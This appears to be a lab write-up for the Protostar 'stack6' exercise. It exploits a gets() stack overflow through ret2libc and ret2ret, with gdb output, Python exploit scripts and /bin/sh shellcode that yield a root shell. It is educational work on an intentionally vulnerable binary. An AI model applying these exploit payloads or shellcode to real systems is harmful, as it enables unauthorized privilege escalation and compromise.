




# Stack 6


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}

```
Usage of gets function which mean possible buffer overflow. 

The function getpath() doesn't allow us to jump on the stack, so our previous exploit
with shellcode will not work in this case.
Actually there is a way to execute our shellcode, we will see this exploit at the end!


```c
 if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

```
So how are we going to exploit this vulnerability if we cannot exploit shellcode ?

-> Return to libc

Since there isn't any kind of 'win' function, the idea with ret2libc is to 
jump in the libc ( C library ) containing function like system,printf,..

In our case we want to call a shell and we can do this with  system('/bin/sh')

To understand this attack you need to understand how the prologue and epilogue of a function work in assembly.

Basically when we are calling a function we push the instruction pointer on the top of the stack (it contains the next
instruction to execute after the called function finish)


```
  |  |---------------------|
  |  |                     |
  |  |      arg x          |
  |  |---------------------|
  |  |                     |
  |  |      ...            |
  |  |---------------------|
  |  |                     |
  |  |      arg1           |
  |  |---------------------|
  |  |                     | 
  |  |       Seip          | 
  |  |                     | 
  |  |---------------------|
  |  |                     |
  |  |       Sebp          |   
  |  |                     |
  |  |                     |  
  |  |---------------------|
  |  |                     |                            
  |  |      ........       |                              
  |  |                     |                           
  |  |                     |                            
  |  |                     |                      
  |  |---------------------|                     
  v                                              

```


The stack will look like this during our ret2libc attack : 

1) overwrite the buffer

```

  |  |---------------------|
  |  |                     |
  |  |     ....            |
  |  |---------------------|
  |  |                     |
  |  |      arg1           |
  |  |---------------------|
  |  |                     | 
  |  |       Seip          | 
  |  |                     | 
  |  |---------------------|
  |  |                     |
  |  |       Sebp          |   
  |  |                     |
  |  |                     |  
  |  |---------------------|
  |  |xxxxxxxxxxxxxxxxxxxxx|                            
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  |  |xxxxxxxxxxxxxxxxxxxxx|  <--- overwrite the buffer 
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  v                                              

```

2) overwrite the return address

```

  |  |---------------------|
  |  |                     |
  |  |     ....            |
  |  |---------------------|
  |  |                     |
  |  |      arg1           |
  |  |---------------------|
  |  |                     | 
  |  |       system        | <----- overwrite the save eip with the  address of system
  |  |       address       | 
  |  |---------------------|
  |  |xxxxxxxxxxxxxxxxxxxxx| 
  |  |xxxxx Sebp xxxxxxxxxx|    <----- overwrite the save 
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  |  |---------------------|
  |  |xxxxxxxxxxxxxxxxxxxxx|                            
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  |  |xxxxxxxxxxxxxxxxxxxxx|  <--- overwrite the buffer 
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  v                                              

```
Now the most important thing to understand , we are **not calling system** we are **jumping**. 


Ok what is the difference beetween these two instructions ? 

=> call  -> push eip
            jmp to_the_call_function


=> jmp -> jmp to_the_call_function

After a function finish executing , we are going to pop eip which mean 
the save eip (which is on the stack) will be the address where we are jumping to.

Let's go back to the explaination :

In the stack the next 4 bytes should be the fake save eip , what can we write into it ? 
=> the address of exit for example , actually if we use an invalid address like 0x41414141
after the call there will be a segfault. (It is not mandatory but it's a proper way)

And 4 bytes after our save eip with need the address of the string '/bin/sh'. (the argument we want to use for calling system )


```

  |  |---------------------|
  |  |                     |
  |  | address of '/bin/sh'|  <--- the argument of system
  |  |---------------------|
  |  |                     |
  |  |  address of exit    |  <---- after the call of system('/bin/sh') we are going to exit without segfault 
  |  |---------------------|
  |  |                     | 
  |  |       system        | <----- overwrite the save eip with the address of system
  |  |       address       | 
  |  |---------------------|
  |  |xxxxxxxxxxxxxxxxxxxxx| 
  |  |xxxxx Sebp xxxxxxxxxx|    <----- overwrite the save ebp
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  |  |---------------------|
  |  |xxxxxxxxxxxxxxxxxxxxx|                            
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  |  |xxxxxxxxxxxxxxxxxxxxx|  <--- overwrite the buffer 
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  v                                              

```

Ok now that we understand what is a ret2libc let's start exploiting the 'stack6' binary.

Let's lauch gdb to find the amount of padding we need to overwrite the save eip.


First way to find it with static analysis: 

```
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>:	  push   ebp
0x08048485 <getpath+1>:	  mov    ebp,esp
0x08048487 <getpath+3>:	  sub    esp,0x68
0x0804848a <getpath+6>:	  mov    eax,0x80485d0
0x0804848f <getpath+11>:	mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:	call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:	mov    eax,ds:0x8049720
0x0804849c <getpath+24>:	mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:	call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:	lea    eax,[ebp-0x4c]  <----- eax points on the address of the start of the buffer
0x080484a7 <getpath+35>:	mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
0x080484af <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:	and    eax,0xbf000000
0x080484bd <getpath+57>:	cmp    eax,0xbf000000
0x080484c2 <getpath+62>:	jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:	mov    eax,0x80485e4
0x080484c9 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:	mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:	call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:	call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:	mov    eax,0x80485f0
0x080484e9 <getpath+101>:	lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:	mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:	call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:	leave  
0x080484f9 <getpath+117>:	ret  

```

'buffer' start at [ebp-0x4c] , which mean we have a stack like this : 


```


  |  |---------------------|
  |  |                     | 
  |  |       Seip          | 
  |  |                     | 
  |  |---------------------|
  |  |                     |
  |  |       Sebp          |   
  |  |                     |
  |  |                     |  
  |  |---------------------|
  |  |                     |                            
  |  |      ........       |                              
  |  |                     |   <---- buffer                       
  |  |                     |                            
  |  |                     |                      
  |  |---------------------| ebp-0x4c                   
  v                                              


```

We can overwrite Seip after 0x4c+4 = 80 bytes


An other way to find it : 


I use pwntool to generate a sequential chunks. The generate chunk is very special (it is call de Bruijn sequences)
The same pattern (seq of 4 bytes) cannot be generate at two different location.





Let's find the offset : 


```
(gdb) set disassembly-flavor intel
(gdb) r
Starting program: /opt/protostar/bin/stack6 
input path please: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
got path aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaauaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616175 in ?? ()
(gdb) 


```




So after 80 bytes we can overwrite the save eip.
Let's find the address of system and printf in the libc, we can use also gdb : 


```
(gdb) start
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Temporary breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
Starting program: /opt/protostar/bin/stack6 

Temporary breakpoint 1, main (argc=1, argv=0xbffff864) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>     <--- address of system
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>  <--- address of exit
(gdb) 


```

Now we need to find the offset of the string '/bin/sh' in the libc

```
user@protostar:~$ strings -t x /lib/libc-2.11.2.so | grep -e '/bin/sh'
 11f3bf /bin/sh

```


Find the base address of the libc  : 

```
(gdb) run
(gdb) info proc map
process 3425
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so  <---- the libc address
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fe0000 0xb7fe2000     0x2000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
 
```

The address of the string '/bin/sh' is  :

0xb7e97000 +  0x11f3bf = 0xb7fb63bf


# Exploit :

```python

import struct

# < little endian format
# I : unsigned int  4 bytes

offset_binsh=0x11f3bf
libc_start=0xb7e97000
system_address=struct.pack('<I', 0xb7ecffb0)


bin_sh_address=struct.pack('<I',libc_start+ offset_binsh)

exit_address=struct.pack('<I',0xb7ec60c0)

padding=b'A'*80

payload = padding + system_address + exit_address + bin_sh_address

print(payload)
```

And we got our shell with root privileges : 




# Another way to exploit stack6 (ret2ret): 


As i say previously we can execute shellcode even if there is restriction on the return address.

We cannot jump on the stack since stack  address start with 0xbffff...

Instead of jumping on the stack we are going to jump on the ret instruction of getpath function :

```
0x080484f9 <getpath+117>:	ret  

```
The idea is to overwrite the save eip with the address of ret instruction (which is not on the stack) to jump at any addresss.


Remember a ret instruction is simply a pop eip , we are just taking the element on the top of the stack and putting it in eip.

Like we want to execute our shellcode we need to jump on the nop sled: 

-> i create a fake payload to find where to jump 'A'*80 + 'B'*40 ('A' for padding + 'B'*40 we are overwriting eip with 'BBBB' so 36 bytes over eip)

With gdb let's find an address which is in the middle of 'B's.
```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack6 
input path please: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23	in stack6/stack6.c
(gdb) x/x $esp
0xbffff7bc:	0x42424242
(gdb) x/10x $esp
0xbffff7bc:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff7cc:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff7dc:	0x42424242	0x42424242

```
Ok let's jump at 0xbffff7cc. 


payload  = padding + overwrite sEip with the address of ret instruction  +  new return address  +  nop sled + shellcode


## exploit : 


```python
import struct 
shellcode=b'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80'


padding=b'A'*80

ret_address = struct.pack('<I',0x080484f9) 

next_ret = struct.pack('<I',0xbffff7cc)

payload = padding + ret_address + next_ret + b'\x90'*40 + shellcode

```


We are root: 

